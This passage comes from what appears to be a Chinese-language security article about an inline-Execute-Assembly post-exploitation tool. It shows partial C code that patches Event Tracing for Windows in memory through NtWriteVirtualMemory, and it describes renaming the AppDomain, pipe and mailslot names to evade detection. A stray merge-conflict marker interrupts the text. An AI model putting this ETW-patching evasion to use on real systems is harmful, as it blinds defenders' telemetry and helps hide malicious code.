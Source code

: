      ......
     // 通过 NTProtectVirtualMemory 更改内存保护
     _NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
     NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
     ......
     // 通过 NTWriteVirtualMemory Patch ETW
     _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
     status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)etwPatch, sizeof(etwPatch)/sizeof(etwPatch[0]), NULL);
     ......
     // 通过 NTProtectVirtualMemory 恢复内存保护
     status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
     ......
     // 已成功 Patch ETW
     return 1;   
    }
    ```
    
    ETW 全称为 Event Tracing for Windows，即 Windows 事件跟踪，可以使用 `.NET assemblies` 选项卡检查 ProcessHacker 通过 ETW 报告的程序集，如下图：
    
<<<<<<< HEAD
    [![](assets/1710898890-98b645fb812694137da8b62f2ef4e823.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172730-9581747a-df89-1.png)
    
    使用 `-etw` 标志运行 `inline-Execute-Assembly`
    
    [![](assets/1710898890-5e70f5cde61005063000e58b54da6403.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172750-a198718c-df89-1.png)
    
4.  支持对 AppDomain、NamedPipe 或 MailSlot 的值进行自定义，默认均为 `totesLegit` ：
    